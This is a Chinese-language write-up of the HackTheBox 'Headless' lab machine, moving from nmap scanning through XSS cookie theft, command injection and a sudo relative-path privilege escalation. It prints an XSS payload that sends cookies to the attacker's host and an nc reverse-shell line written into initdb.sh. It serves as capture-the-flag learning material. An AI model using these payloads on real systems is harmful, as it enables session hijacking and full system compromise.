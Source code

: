 ```yaml
---
title: HTB - Headless 
published: 2024-05-21
tags: [HTB]
category: Write Up
draft: false
password: $y$j9T$2cy/WxPggISXkBDRmZbL10$0w8yfYfo92xIpj.Qu7zcpzqjLInUcI26SaM2l0IRS.7
abstract: 你看不到我...你看不到我...
message: 輸入密碼
---
```


# HTB - Headless 

Target IP : ```10.10.16.28```

![圖片](https://hackmd.io/_uploads/rkl9VhKXA.png)


---

## user.txt

### Port enumeration
```
# Nmap 7.94SVN scan initiated Mon May 20 23:41:11 2024 as: nmap -sS -sC -sV -oA hannd -p- -vv -T5 --min-rate=1000 10.129.36.179
Nmap scan report for 10.129.36.179
Host is up, received echo-reply ttl 63 (0.14s latency).
Scanned at 2024-05-20 23:41:12 EDT for 177s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJXBmWeZYo1LR50JTs8iKyICHT76i7+fBPoeiKDXRhzjsfMWruwHrosHoSwRxiqUdaJYLwJgWOv+jFAB45nRQHw=
|   256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICkBEMKoic0Bx5yLYG4DIT5G797lraNQsG5dtyZUl9nW
5000/tcp open  upnp?   syn-ack ttl 63
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 21 May 2024 03:42:50 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=5/20%Time=664C1822%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Tue,\x2021\x20May\x202024\x2003:42:50\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 20 23:44:09 2024 -- 1 IP address (1 host up) scanned in 178.09 seconds

```

### XSS injection
看到有一個開 5000 回傳 HTTP 資料的端口
用瀏覽器先測試一下有沒有 XSS 的漏洞
![圖片](https://hackmd.io/_uploads/SyoNF9YmR.png)

WAF 擋下來了
不過可以看到他很貼心的把我們的Header都印出來
這樣我們就多一個可操控的變數 ```User-Agent```
![圖片](https://hackmd.io/_uploads/H1oSKcKmA.png)

透過插件修改自己的 ```User-Agent``` 
變成 ```<script>alert('1')</script>```
![圖片](https://hackmd.io/_uploads/rygK95t7A.png)

這樣就驗證了這個 XSS注入點
![圖片](https://hackmd.io/_uploads/H1295qFQC.png)

現在我們把 ```User-Agent``` 改成我們的 XSS-Payload
```
<script>var i=new Image(); i.src="http://10.10.16.28:8082/?cookie="+btoa(document.cookie);</script>
```
![圖片](https://hackmd.io/_uploads/H11905FmC.png)

然後開啟一個http.server來接收cookie

![圖片](https://hackmd.io/_uploads/SyOiD2KQA.png)

```aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=```

是我們接收到的數據,需要再去base64解碼

```is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0```

### Subdirectory enumeration
然而只有一個 support 頁面很明顯沒地方使用這個 cookie
所以讓我們先爆破一下子目錄
![圖片](https://hackmd.io/_uploads/rJZRHoYXA.png)

讓我們找到一個叫做 dashboard 的頁面
把拿到的cookie裝上去
![圖片](https://hackmd.io/_uploads/S17RuhKmC.png)

成功讀取到管理員介面
![圖片](https://hackmd.io/_uploads/BkBWrotQA.png)

###  Command injection

到這邊其實可以看到沒什麼操作空間
不過回去看nmap的結果可以注意到兩件事情
1. python網頁伺服器
2. 系統是 linux

然而這個介面是**產生**網站安全報告
猜測要產生安全報告的話可能會使用Python的OS模塊調用系統指令
而我們設定的參數可能就是他檔案的名稱
所以這邊我嘗試 command injection

![圖片](https://hackmd.io/_uploads/r12I5iFXR.png)

拿到一個reverse shell

![圖片](https://hackmd.io/_uploads/H1-Xj3FXR.png)

取得 user.txt

___
## root.txt

### 取得 Shell 必須要做的事情 : sudo -l

可以看到有個能用 root 權限執行的檔案 syscheck
cat 一下發現就是一個腳本
![圖片](https://hackmd.io/_uploads/SJ23AitQR.png)

發現一個很有趣的東西,他似乎會執行一個叫做initdb.sh的腳本
然而這電腦上根本沒有這個腳本
甚至還是用相對路徑的方式存取
![圖片](https://hackmd.io/_uploads/rJAI23tQC.png)

所以我們直接 echo 一個新的檔案
把我們的 payload 放進去
```echo "nc 10.10.16.28 4222 -e /bin/bash" > initdb.sh```
然後用 sudo syscheck 來結束這回合
![圖片](https://hackmd.io/_uploads/B11ZVhKmR.png)
這樣就順利取得 root.txt
![圖片](https://hackmd.io/_uploads/rycfV3KQR.png)


